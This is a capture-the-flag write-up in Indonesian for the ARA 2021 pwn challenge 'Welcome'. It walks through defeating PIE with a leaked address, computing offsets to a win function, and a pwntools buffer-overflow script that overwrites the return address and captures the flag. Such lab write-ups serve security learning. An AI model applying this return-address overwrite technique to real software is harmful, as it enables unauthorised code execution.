



# Welcome
---
## Deskripsi
Salah satu pertimbangan Anda layak untuk masuk ke Telkom Indonesia sebagai security engineer adalah dengan menyelesaikan soal ini. Temukan flagnya maka kesempatan Anda untuk bekerja sebagai security engineer di Telkom Indonesia semakin besar   
## Solusi
Cek terlebih dahulu menggunakan checksec. Terdapat PIE tetapi hal ini bukan masalah dikarenakan kita sudah diberitahu address dari fungsi welcome



Hal yang perlu dilakukan adalah mengetahui offset return dari alamat fungsi welcome dan offset fungsi win dari alamat fungsi welcome. Cara mengetahuinya 



Tinggal dihitung offsetnya



Setelah itu tinggal mengetahui Padding untuk mengisi buffer. Diawali dengan ARA2021 ditambahkan null byte dibelakangnya. Setelah itu ditambahkan payload random untuk mengecek padding. Jika semua sudah ketemu payloadnya tinggal PADDING+WIN_RETURN+WIN. Untuk kodingannya seperti ini

```
from pwn import *

exe = ELF("welcome")
p = process("./welcome")

#mengambil alamat funsgi welcome
WELCOME =int(p.recv().split("\n")[0].split("0x")[1],16)

#offset win
WIN_OFFSET = 0x37
WIN = WELCOME - WIN_OFFSET

#offset return
WIN_RETURN_OFFSET = 0x1
WIN_RETURN = WELCOME - WIN_RETURN_OFFSET

#Padding
PADDING = "ARA2021\x00"
PADDING += 'A' * int(cyclic_find('oaac'))


#print(address_of_welcome)
PAYLOAD = PADDING + p64(WIN_RETURN) + p64(WIN)

#raw_input("GDB gan")
p.sendline(PAYLOAD)
p.interactive()

```
#### ara2021{w3lC0mE_t0_ARA2o01}